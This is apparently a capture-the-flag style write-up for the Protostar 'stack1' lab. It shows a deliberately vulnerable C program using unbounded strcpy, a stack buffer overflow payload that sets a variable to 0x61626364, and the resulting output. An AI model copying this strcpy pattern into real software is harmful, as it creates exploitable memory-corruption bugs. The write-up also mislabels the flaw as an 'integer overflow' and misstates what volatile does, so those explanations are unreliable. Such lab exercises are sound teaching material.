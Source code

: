 # STACK 1

## SOURCE CODE

```C
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv) 
{
  volatile int modified;
  char buffer[64];

  if(argc == 1) {
      errx(1, "please specify an argument\n");
  }

  modified = 0;
  strcpy(buffer, argv[1]); 					// vuln is here (integer overflow)

  if(modified == 0x61626364) {
      printf("you have correctly got the variable to the right value\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }
}
```

## IDEA

- We will write 64 bytes to fill up the buffer content, and then overwrite into content of "modified" variable, this content will hold 0x61626364 to run into true branch of if.

## DETAIL

- This program will take input like this

```
			argv[0]     argv[1] 	.... 
			   | 	       |
			   v 	       v
			./program  input[1]     ....
```

- This program will take argv[1] as input


- I will overwrite all 64 bytes of "buffer" variable and modified the modified variable (modifiable because it initializes with volatile keyword). Because protostar using little edian to store data, so the number 0x61626364 will be "\x64\x63\x62\x61", it's the same as "dcba"

- I will generate 64 bytes with python ("a"*64)

## EXPLOIT

- Payload:

```
./stack1 aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaadcba
```

## Result

```
$ ./stack1 aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaadcba
you have correctly got the variable to the right value
```
